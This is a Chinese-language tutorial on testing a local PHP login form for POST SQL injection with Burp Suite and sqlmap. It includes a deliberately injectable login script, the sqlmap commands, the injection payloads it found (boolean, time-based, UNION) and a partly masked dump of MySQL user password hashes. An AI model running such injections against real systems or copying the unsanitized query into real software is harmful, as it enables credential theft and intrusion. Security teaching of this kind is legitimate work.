


sqlmap post注入
============================

### 本地搭建测试环境
login.php
```php
<form action="checklogin.php" method="post">  
    用户名：<input type="text" name="username" />  
    <br />  
    密码：<input type="password" name="password" />  
    <br />  
    <input type="submit" name="submit" value="登陆" />  
          
    <a href="register.php">注册</a>  
</form> 
```

checklogin.php
```php
<?php  

    $user = $_POST["username"];  
    $psw = $_POST["password"];  
    mysql_connect("localhost","root","pwssword");  
    mysql_select_db("test");  
    mysql_query("set names 'utf8'");  
    $sql = "select username,password from user where username = '$_POST[username]' and password = '$_POST[password]'";  
    $result = mysql_query($sql);  
    $num = mysql_num_rows($result);  
    if($num)  
    {  
        $row = mysql_fetch_array($result);  //将数据以索引方式储存在数组中  
        echo $row[0];  
    }  
    else  
    {  
        echo "<script>alert('用户名或密码不正确！');history.go(-1);</script>";  
    }  
?>  
```

#### 1、burp抓包



保存到sqlmap同目录的1.txt

#### 2、sqlmap post注入
```
λ python sqlmap.py -r 1.txt -p password --dbs python sqlmap.py -r 1.txt -p password --dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.1#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:15:22

[22:15:22] [INFO] parsing HTTP request from '1.txt'
[22:15:23] [INFO] resuming back-end DBMS 'mysql'
[22:15:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
    Payload: username=admin&password=123456' OR NOT 8311=8311#&submit=%E7%99%BB%E9%99%86

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin&password=123456' OR SLEEP(5)-- qOvF&submit=%E7%99%BB%E9%99%86

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: username=admin&password=123456' UNION ALL SELECT CONCAT(0x7176717a71,0x4d544766736367476569536667545164614c47474541786d6c567175706c6c4c6a6254674243746a,0x7171767a71),NULL#&submit=%E7%99%BB%E9%99%86
---
####省略n行####
available databases [15]:
[*] `user`
[*] articlespider
[*] dvwa
[*] information_schema
[*] kuzi
[*] mysql
[*] performance_schema
[*] php
[*] phpmyadmin
[*] secarticle
[*] sqlinject
[*] test
[*] thinkphp
[*] ultrax
[*] wordpress

[22:15:23] [INFO] fetched data logged to text files under 'C:\Users\hhf\.sqlmap\output\localhost'

[*] shutting down at 22:15:23
```

```
λ python sqlmap.py -r 1.txt -p password -D mysql -T user -C user,host,password --dump

####省略n行####
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: mysql
Table: user
[4 entries]
+--------+-----------+-------------------------------------------+
| user   | host      | password                                  |
+--------+-----------+-------------------------------------------+
| php    | %         | *91C40487马赛克D0A02A0BD16 |
| root   | 127.0.0.1 | *E9195675马赛克FA6074FCD13 |
| dvwa   | localhost | *E9195675马赛克FA6074FCD13 |
| root   | localhost | *E9195675马赛克FA6074FCD13 |
+--------+-----------+-------------------------------------------+
```




#### 参考链接:

- [sqlmap之(六)----POST登陆框注入实战--CSDN](http://blog.csdn.net/u011781521/article/details/58594941)
- [[技巧]使用Burpsuite辅助Sqlmap进行POST注入测试--Freebuf](http://www.freebuf.com/sectool/2311.html)
- [burp结合sqlmap进行后台登录框post注入--doc360](http://www.360doc.com/content/17/0622/21/31784658_665629152.shtml)
